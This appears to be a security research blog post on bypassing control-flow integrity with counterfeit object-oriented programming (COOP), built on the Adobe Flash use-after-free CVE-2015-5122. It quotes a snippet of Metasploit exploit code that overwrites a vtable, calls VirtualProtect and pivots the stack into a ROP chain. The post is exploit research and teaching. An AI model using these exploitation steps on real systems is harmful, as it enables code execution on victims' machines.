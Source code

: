 ```yaml
---
layout: post
title: 'CVE-2015-5122: Exploitation Using COOP'
categories: [COOP, Software Exploitation]
---
```


In this post we discuss advanced code reuse technique “COOP,” which uses an old vulnerability to conform to the theoretical boundaries of CFI. 

Originally posted at https://perception-point.io/blog/cve-2015-5122-exploitation-using-coop/

**Special thanks to my colleague [Oshri Sela](https://www.linkedin.com/in/oshri-s-566619123/) for collaborating with me on this piece.**

## Introduction

[CFI](http://research.microsoft.com/pubs/64250/ccs05.pdf) has most certainly set the standard for exploit mitigations, and has inspired many implementations such as [Microsoft CFG](https://msdn.microsoft.com/en-us/library/windows/desktop/mt637065(v=vs.85).aspx), [Microsoft RFG](https://xlab.tencent.com/en/2016/11/02/return-flow-guard/), [PaX Team’s RAP™](https://grsecurity.net/rap_announce.php), and [Clang’s CFI](https://clang.llvm.org/docs/ControlFlowIntegrity.html).

In this series of posts, we’re going to demonstrate how modern CFI implementations can be circumvented. Specifically, in this post, we’ll be demonstrating an advanced code reuse technique, [Counterfeit Object-Oriented Programming (COOP)](http://syssec.rub.de/media/emma/veroeffentlichungen/2015/03/28/COOP-Oakland15.pdf), utilizing an old vulnerability to conform to the theoretical boundaries of CFI.


## CVE-2015-5122

CVE-2015-5122 is a use-after-free vulnerability that was utilized by Hacking Team to exploit Adobe Flash Player (<= 18.0.0.203). An analysis of the vulnerability itself can be found [here](http://blog.trendmicro.com/trendlabs-security-intelligence/another-zero-day-vulnerability-arises-from-hacking-team-data-leak/). Note that by leveraging this vulnerability, we are able to gain a full read-write primitive to the process memory. 

We based our work on Metasploit’s implementation of CVE-2015-5122, which can be found [here](https://github.com/RiskSense-Ops/metasploit-framework/tree/master/external/source/exploits/CVE-2015-5122). In order to achieve a read/write primitive, the vulnerability is used to overwrite the length member of a vector object. The vector object is wrapped with a class named `ExploitByteArray` that contains the methods `write(addr, data)` and `read(addr)` that provide the full read/write primitives. 

Code execution is gained by defining a fake “magic” method in the `Exploiter` class, and overriding its virtual function pointer with an address of choice. The metasploit implementation first calls `VirtualProtect` in order to change a sprayed stack-pivot stub’s page protection to `READWRITE_EXECUTE`, and then uses the magic method a second time to call the executable stub and commence a ROP chain.

```javascript
// VirtualProtect the stub with a *reliable* stack pivot
eba.write(stack_address + 8 + 0x80 + 28, virtualprotect);
eba.write(magic_object, stack_address + 8 + 0x80); // overwrite vtable (needs to be restored)
eba.write(magic + 0x1c, stub_address);
eba.write(magic + 0x20, 0x10);
var args = new Array(0x41);
Magic.call.apply(null, args);

// Call to our stack pivot and init the rop chain
eba.write(stack_address + 8 + 0x80 + 28, stub_address + 8);
eba.write(magic_object, stack_address + 8 + 0x80); // overwrite vtable (needs to be restored)
eba.write(magic + 0x1c, stack_address + 0x18000);
Magic.call.apply(null, null);
eba.write(magic_object, magic_table);
eba.write(magic + 0x1c, magic_arg0);
```